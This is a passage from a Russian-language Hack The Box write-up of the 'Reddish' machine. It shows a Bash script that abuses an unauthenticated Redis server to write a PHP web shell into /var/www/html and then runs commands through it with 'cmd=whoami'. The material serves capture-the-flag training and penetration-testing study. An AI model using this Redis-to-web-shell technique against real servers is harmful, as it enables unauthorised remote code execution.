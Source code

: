 Интересный момент: Redis оптимизирует хранение значений, если в них присутствуют повторяющиеся паттерны, поэтому не всякий пейлоад, записанный в БД, отработает корректно.

Напишем скрипт на Bash, который будет «проигрывать» эти пять шагов выше. Автоматизация нужна, так как вскоре выяснится, что веб-директория очищается каждые три минуты.

```bash
#!/usr/bin/env bash

~/redis/src/redis-cli -h localhost flushall
~/redis/src/redis-cli -h localhost set pwn '<?php system($_REQUEST['cmd']); ?>'
~/redis/src/redis-cli -h localhost config set dbfilename shell.php
~/redis/src/redis-cli -h localhost config set dir /var/www/html/
~/redis/src/redis-cli -h localhost save
```

![redis-pwn-redis.png](/assets/images/htb/machines/reddish/redis-pwn-redis.png)
{:.center-image}

Скрипт отработал успешно, поэтому можно открыть браузер и после перехода по адресу `http://localhost:8890/shell.php?cmd=whoami` тебя будет ждать такой ответ.

![www-web-shell-whoami.png](/assets/images/htb/machines/reddish/www-web-shell-whoami.png)
{:.center-image}

Таким образом, у нас есть RCE в контейнере `172.19.0.3` (будем называть его `www`, так как он сам так представился).

![www-web-shell-hostname.png](/assets/images/htb/machines/reddish/www-web-shell-hostname.png)
{:.center-image}

Раз есть RCE, неплохо было бы получить шелл.

# Докер. Контейнер II: "www"


[//]: # (2020-02-17)